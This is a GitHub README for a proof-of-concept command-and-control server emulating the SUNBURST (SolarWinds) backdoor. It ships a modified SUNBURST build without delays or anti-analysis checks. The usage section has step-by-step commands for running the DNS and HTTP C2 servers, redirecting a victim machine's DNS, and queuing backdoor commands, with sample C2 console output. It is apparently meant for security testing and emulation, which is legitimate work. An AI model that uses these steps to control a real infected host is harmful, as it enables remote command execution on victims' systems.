 <!--
*** Thanks for checking out the Best-README-Template. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Thanks again! Now go create something AMAZING! :D
***
***
***
*** To avoid retyping too much info. Do a search and replace for the following:
*** CreatePhotonW, SunburstC2Server, @CreatePhotonW, email, SunburstC2Server, PoC Sunburst DNS and HTTP C2 server
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
<!--
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]
[![LinkedIn][linkedin-shield]][linkedin-url]
-->


<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/CreatePhotonW/SunburstC2Server">
<!--    <img src="images/logo.png" alt="Logo" width="80" height="80"> -->
  </a>

  <h3 align="center">SunburstC2Server</h3>

  <p align="center">
    PoC Sunburst DNS and HTTP C2 server
    <br />
<!--    <a href="https://github.com/CreatePhotonW/SunburstC2Server"><strong>Explore the docs »</strong></a> -->
    <br />
    <br />
    <!--
    <a href="https://github.com/CreatePhotonW/SunburstC2Server">View Demo</a>
    ·
    -->
    <a href="https://github.com/CreatePhotonW/SunburstC2Server/issues">Report Bug</a>
    ·
    <a href="https://github.com/CreatePhotonW/SunburstC2Server/issues">Request Feature</a>
  </p>
</p>



<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary><h2 style="display: inline-block">Table of Contents</h2></summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>



<!-- ABOUT THE PROJECT -->
## About The Project

<!--
[![Product Name Screen Shot][product-screenshot]](https://example.com)
-->

SunburstC2Server is a proof of concept DNS and HTTP C2 servers for the SUNBURST malware based public technical writeups and sample reversing. With this, it is possible to utilize SUNBURST to run backdoor commands.

Also included is a version of SUNBURST that is convenient for testing this C2 implementation. Delays are drastically shortened and anti-analysis checks are not performed.
This C2 server would work with the unmodified sample, but waiting days to execute calc is no fun :)

<!-- 
### Built With

* []()
* []()
* []()

-->



<!-- GETTING STARTED -->
## Getting Started

To get a local copy up and running follow these simple steps.

### Prerequisites

* python3

* python packages

    ```
    sudo pip install -r requirements_dns.txt
    sudo pip install -r requirements_http.txt
    ```

### Installation

1. Clone the repo
   ```sh
   git clone https://github.com/CreatePhotonW/SunburstC2Server.git
   ```

<!-- USAGE EXAMPLES -->
## Usage

1. On a server (local or remote) run:
```
python3 sunburst_httpc2.py
```
2. In the HTTP C2 shell, type `auto_execute 5 calc` and hit enter
3. On a server (local or remote) run (replace `127.0.0.1` with the IP address of the HTTP C2 server):
```
python3 sunburst_dnsc2.py --httpc2ip 127.0.0.1
```
4. In the DNS C2 shell, type `auto_activate` and hit enter
5. Change your Windows victim's DNS server to point to the IP address of the DNS C2 server
6. Build the Visual Studio solution
7. Run SolarWinds.BusinessLayerHost.exe
8. Wait 30-60 seconds
9. SolarWinds.BusinessLayerHost.exe will reach out to the DNS C2 server and progress through the Activation phase
```
                    ___                          __        ___                    ________  
  ________ __  ____ \_ |__  __ _________  ______/  |_   __| _/ ____   ______ ____ \_____  \ 
 /  ___/  |  \/    \ | __ \|  |  \_  __ \/  ___/   __\ / __ | /    \ /  ___// ___\ /  ____/ 
 \___ \|  |  /   |  \| \_\ \  |  /|  | \/\___ \ |  |  / /_/ ||   |  \\___ \\  \___/       \ 
/____  \____/|___|  /|___  /____/ |__|  /____  \|__|  \____ ||___|  /____  \\___  /_______ \
     \/           \/     \/                  \/            \/     \/     \/     \/        \/
    
Welcome to the Sunburst DNS C2 Coordinator.
Type help or ? to list commands.

(sunburst) auto_activate
	Sunbeams will begin activation when they first connect
(sunburst) (01:08:27) [*] New sunbeam found: b'4f4774e0740a7e72'
(01:08:27) [*] sunbeam preactivated (activation step 1/2): b'4f4774e0740a7e72'
(01:08:37) [*] sunbeam activated (activation step 2/2): b'4f4774e0740a7e72'
```
10. SolarWinds.BusinessLayerHost.exe will reach out to the HTTP C2 server and fetch its first backdoor command.
```
                    ___                          __    /\      __    __                ________  
  ________ __  ____ \_ |__  __ _________  ______/  |_ |  |__ _/  |__/  |_______   ____ \_____  \ 
 /  ___/  |  \/    \ | __ \|  |  \_  __ \/  ___/   __\|  |  \\   __\   __\____ \_/ ___\ /  ____/ 
 \___ \|  |  /   |  \| \_\ \  |  /|  | \/\___ \ |  |  |      \|  |  |  | |  |_\ \  \___/       \ 
/____  \____/|___|  /|___  /____/ |__|  /____  \|__|  |___|  /|__|  |__| |   ___/\___  /_______ \
     \/           \/     \/                  \/            \/            |__|        \/        \/
    
Welcome to the Sunburst HTTP C2 Server.
Type help or ? to list commands.

(sunburst) auto_execute 5 calc
	Sunbeam will process the next auto execute job in the queue on its next HTTP response
(sunburst) (01:08:39) [*] New sunbeam found: b'4f4774e0740a7e72'
```
11. SolarWinds.BusinessLayerHost.exe will run a RunTask job (id=5) to spawn calc


<!-- ROADMAP -->
## Roadmap

See the [open issues](https://github.com/CreatePhotonW/SunburstC2Server/issues) for a list of proposed features (and known issues).



<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

SecureIQlab [https://www.linkedin.com/company/secureiqlab] ,CreatePhotonW - [@CreatePhotonW](https://twitter.com/CreatePhotonW)

Project Link: [https://github.com/secureiqlab/Sunburst-Emulation],[https://github.com/CreatePhotonW/SunburstC2Server]




